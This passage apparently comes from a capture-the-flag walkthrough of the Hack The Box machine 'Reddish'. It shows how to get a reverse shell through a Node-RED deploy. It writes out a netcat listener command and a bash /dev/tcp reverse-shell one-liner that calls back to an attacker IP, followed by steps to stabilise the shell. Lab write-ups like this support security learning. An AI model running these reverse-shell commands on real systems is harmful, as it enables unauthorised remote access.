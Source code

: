 Click on the node that shows the IP and Port.

![ipport node](/assets/img/htb/reddish/ipport_node.png)

Start a listener on the attacker machine using the chosen port.

```bash
nc -lnvp 9001
```

Go to the node-red site and click on Deploy.

![deploy](/assets/img/htb/reddish/deploy_shell.png)

A reverse shell is received.

![hostname container 1](/assets/img/htb/reddish/hostname_container_1.png)

## Access to nodered container


To get a more stable tty another shell is sent from the one obtained on port 9001 to another one on port 443.

```bash
[object Object]bash -c "bash -i > /dev/tcp/10.10.14.26/443 0>&1" &
```


Once the new shell is received proceed to stabilize the shell:

- script /dev/null -c bash
- (ctrl+z)
- stty raw -echo; fg
- reset xterm (press Enter)
- stty rows 39 columns 155 (adapt this to your stty size)
- export TERM=xterm
- export SHELL=bash

![shell container 1](/assets/img/htb/reddish/shell_container_1.png)
